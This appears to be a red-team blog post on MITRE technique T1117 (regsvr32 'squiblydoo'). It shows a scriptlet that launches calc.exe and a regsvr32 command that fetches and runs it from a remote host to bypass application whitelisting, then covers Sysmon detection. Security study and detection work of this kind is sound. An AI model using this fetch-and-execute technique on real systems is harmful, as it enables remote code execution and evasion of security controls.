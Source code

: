 ```yaml
---
layout: post
title: "t1117 regsvr32 aka squiblydoo"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1117-regsvr32-aka-squiblydoo/
---
```


---
layout: post
title: "t1117 regsvr32 aka squiblydoo"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1117-regsvr32-aka-squiblydoo/
---

---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---

# regsvr32

## Execution

{% code title="http://10.0.0.5/back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode %}

We need to host the back.sct on a web server so we can invoke it like so:

{% code title="attacker@victim" %}
```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode %}

## Observations

![calc.exe spawned by regsvr32.exe](../../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:

![](<../../.gitbook/assets/regsvr32-commandline (1).png>)

Additionally, of course sysmon will show regsvr32 establishing a network connection:

![](../../.gitbook/assets/regsvr32-network.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" %}
@spotheplanet
